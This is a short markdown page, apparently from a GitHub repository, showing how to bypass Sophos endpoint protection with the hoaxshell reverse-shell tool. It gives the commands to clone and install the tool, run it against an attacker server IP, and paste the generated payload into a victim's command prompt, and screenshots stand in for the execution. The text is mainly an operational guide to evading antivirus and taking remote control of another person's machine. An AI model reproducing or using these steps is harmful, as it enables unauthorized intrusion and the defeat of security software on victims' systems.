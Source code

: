 # Bypassing Sophos Endpoint Protection With Hoaxshell

Download the hoaxshell in github

```
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py
```

Command:
```
python3 hoaxshell.py -s SERVER_IP
```
Now just copy the payload generated by hoaxshell and go to the victim's cmd, now just paste the payload

![](Images/sophoshs.png)

## Execution

![](Images/sophoshs1.png)
